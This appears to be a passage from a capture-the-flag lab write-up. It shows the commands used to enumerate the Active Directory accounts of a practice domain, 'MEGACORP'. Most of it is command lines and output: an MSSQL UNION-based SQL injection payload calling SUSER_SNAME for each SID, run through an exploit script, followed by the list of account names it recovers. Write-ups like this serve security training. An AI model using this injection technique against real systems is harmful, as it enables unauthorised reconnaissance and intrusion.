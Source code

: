 _Generate the SIDs_

```
# python generate_sids.py 500 10000 > sids.txt
```

_Enumerate the domain accounts_

```
# for sid in $(cat sids.txt); do (./exploit.sh -e "-1' UNION SELECT 1,SUSER_SNAME($sid),3,4,5-- -" | jq ".[].name" 2>/dev/null; sleep 2s); done | tee accounts.txt
```

_Clean up the accounts_

```
# ./clean.sh accounts.txt
MEGACORP\Administrator
MEGACORP\Guest
MEGACORP\krbtgt
MEGACORP\DefaultAccount
MEGACORP\Domain Admins
MEGACORP\Domain Users
MEGACORP\Domain Guests
MEGACORP\Domain Computers
MEGACORP\Domain Controllers
MEGACORP\Cert Publishers
MEGACORP\Schema Admins
MEGACORP\Enterprise Admins
MEGACORP\Group Policy Creator Owners
MEGACORP\Read-only Domain Controllers
MEGACORP\Cloneable Domain Controllers
MEGACORP\Protected Users
MEGACORP\Key Admins
MEGACORP\Enterprise Key Admins
MEGACORP\RAS and IAS Servers
MEGACORP\Allowed RODC Password Replication Group
MEGACORP\Denied RODC Password Replication Group
MEGACORP\MULTIMASTER$
MEGACORP\DnsAdmins
MEGACORP\DnsUpdateProxy
MEGACORP\svc-nas
MEGACORP\Privileged IT Accounts
MEGACORP\tushikikatomo
MEGACORP\andrew
MEGACORP\lana
MEGACORP\alice
MEGACORP\test
MEGACORP\dai
MEGACORP\svc-sql
MEGACORP\SQLServer2005SQLBrowserUser$MULTIMASTER
MEGACORP\sbauer
MEGACORP\okent
MEGACORP\ckane
MEGACORP\kpage
MEGACORP\james
MEGACORP\cyork
MEGACORP\rmartin
MEGACORP\zac
MEGACORP\jorden
MEGACORP\alyx
MEGACORP\ilee
MEGACORP\nbourne
MEGACORP\zpowers
MEGACORP\aldom
MEGACORP\jsmmons
MEGACORP\pmartin
```